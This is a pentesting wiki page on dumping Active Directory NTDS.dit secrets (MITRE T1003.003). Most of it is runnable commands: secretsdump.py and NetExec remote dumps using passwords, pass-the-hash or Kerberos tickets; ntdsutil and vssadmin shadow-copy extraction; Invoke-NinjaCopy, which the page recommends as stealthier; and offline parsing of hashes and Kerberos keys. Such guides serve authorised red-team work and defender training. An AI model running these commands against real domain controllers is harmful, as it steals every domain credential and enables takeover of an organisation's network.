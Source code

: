 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.003
---
```


# NTDS secrets

## Theory

NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](../../../../../ad/movement/credentials/bruteforcing/password-spraying.md), [stuffing](../../../../../ad/movement/credentials/bruteforcing/stuffing.md), [shuffling](../../../../../ad/movement/credentials/credential-shuffling.md), [cracking](../../../../../ad/movement/credentials/cracking.md), [pass-the-hash](broken-reference), [overpass-the-hash](../../../../../ad/movement/kerberos/ptk.md) or [silver or golden tickets](../../../../../ad/movement/kerberos/forged-tickets.md).

## Practice

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](broken-reference), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

{% tabs %}
{% tab title="UNIX-Like" %}
### Secretsdump.py

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to remotely dump NTDS.dit through Volume Shadow Copy. Several authentication methods can be used like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of NTDS.dit using Shadow Copy
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET' -use-vss -just-dc

# Remote dumping of NTDS.dit using Shadow Copy (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@DC_TARGET' -use-vss -just-dc

# Remote dumping of NTDS.dit using Shadow Copy
secretsdump.py -k -no-pass 'DOMAIN/USER@DC_TARGET' -use-vss -just-dc

# Offline dumping of NTDS.dit secrets from exported files/hives
secretsdump.py -system '/path/to/system.save' -ntds ntds.dit.save LOCAL
```

### NetExec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can also be used to remotely dump NTDS.dit through Volume Shadow Copy or NTDSUtil. It offers several authentication methods like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos)

```bash
### Shadow Copy
# Remote dumping of NTDS.dit using Shadow Copy
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --ntds vss

# Remote dumping of NTDS.dit using Shadow Copy (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds vss

# Remote dumping of NTDS.dit using Shadow Copy (pass-the-ticket)
netexec smb $TARGETS -k --use-kcache --ntds vss

### NTDSUtil
# Remote dumping of NTDS.dit using NTDSUtil
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -M ntdsutil

# Remote dumping of NTDS.dit using NTDSUtil (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M ntdsutil

# Remote dumping of NTDS.dit using NTDSUtil (pass-the-ticket)
netexec smb $TARGETS -k --use-kcache -M ntdsutil
```

{% hint style="success" %}
In addition when using **NetExec** or **Secretsdump**, the `-exec-method` option can be set to `smbexec`, `wmiexec` or `mmcexec` to specify the remote command execution method on which the process should rely.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
### AD maintenance (NTDSUtil)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```bash
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

{% hint style="warning" %}
If the NTDS database is very large (several gigabytes), the generation of a defragmented backup with ntdsutil consumes a lot of CPU and disk resources on the server, which can cause slowdowns and other undesirable effects on the domain controller.
{% endhint %}

### Volume Shadow Copy (VSSAdmin)

VSS (Volume Shadow Copy) is a Microsoft Windows technology, implemented as a service, that allows the creation of backup copies of files or volumes, even when they are in use. The following command will create the shadow copy and will print two values that will be used later: the ID and the Name of the shadow copy.

```bash
vssadmin create shadow /for=C:
```

Once the VSS is created for the target drive, it is then possible to copy the target files from it.

```bash
copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit.save
copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\system.save
```

Once the required files are exfiltrated, the shadow copy can be removed

```bash
vssadmin delete shadows /shadow=$ShadowCopyId
```

### Invoke-NinjaCopy

[Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) is a PowerShell script part of the PowerSploit suite able to "copy files off an NTFS volume by opening a read handle to the entire volume (such as c:) and parsing the NTFS structures. **This technique is stealthier than the others.**

```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\Windows\Temp\ntds.dit.save"
```
{% endtab %}

{% tab title="NTDS Parsing" %}
## Secrets dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) (Go, faster for big files).

```bash
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```

### NTDS Directory parsing and extraction

With the required files, it is possible to extract more information than just secrets. The NTDS file is responsible for storing the entire directory, with users, groups, OUs, trusted domains etc... This data can be retrieved by parsing the NTDS with tools like [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite). With the NTDS alone, objects can be extracted from the NTDS such as user and machine accounts, with a lot of information about them: descriptions, user account control flags, last logon and password change timestamps etc. This information is stored as an SQLite database which is easier to browse and query.

With the `SYSTEM` hive available it is able to extract credentials as well: NT and LM hashes, supplemental credentials such as kerberos keys, cleartext passwords and password hash history.

```bash
ntdsdotsqlite ntds.dit -o ntds.sqlite
ntdsdotsqlite ntds.dit -o ntds.sqlite --system SYSTEM.hive
```
{% endtab %}
{% endtabs %}
